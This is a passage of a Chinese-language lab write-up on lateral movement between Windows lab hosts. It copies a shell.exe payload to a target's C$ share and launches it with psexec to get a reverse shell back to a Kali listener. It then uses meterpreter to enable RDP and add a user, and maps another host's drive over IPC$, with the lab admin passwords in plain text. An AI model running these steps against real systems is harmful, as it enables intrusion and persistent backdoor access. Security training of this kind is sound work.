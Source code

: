 ![](https://upload-images.jianshu.io/upload_images/7216746-636800654a0f0f65.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用copy命令将先前生成的shell.exe拷贝至靶机C盘

```
copy shell.exe \\192.168.141.100\c$
```

![](https://upload-images.jianshu.io/upload_images/7216746-558122d828737285.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali上开启监听(6666端口)，使用**psesec.exe**.启动靶机上的shell.exe

```
psexec.exe \\192.168.141.100 -u administrator -p hb123456,./$ c:\\shell.exe
```

![](https://upload-images.jianshu.io/upload_images/7216746-a7b6544d85d2e439.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

成功反弹shell上线:

![](https://upload-images.jianshu.io/upload_images/7216746-03a07bfcf85204c9.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali里接收到了shell，可在meterpreter中管理shell，开启3389
```
run post/windows/manage/enable_rdp
```

添加用户
```
run post/windows/manage/enable_rdp username="Waldo1111test" password="123456hhhh."
```

![](https://upload-images.jianshu.io/upload_images/7216746-2805ed3391b9c38d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在4号机远程登录3号机
用户名:hiro\Administrator 密码:hb123456,./$

![](https://upload-images.jianshu.io/upload_images/7216746-05026fcb32a908a3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


# 3号机到1号机

在3号机上，使用以下命令建立IPC$连接

```
net use \\192.168.141.111 "hb123456,./$" /user:"Administrator"
```
![](https://upload-images.jianshu.io/upload_images/7216746-9c18515bc42014f6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在3号机上，使用以下命令，将目标靶机的C盘映射到本地Z盘
```
net use z: \\192.168.141.111\c$
```

![](https://upload-images.jianshu.io/upload_images/7216746-61aa26bbec803796.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
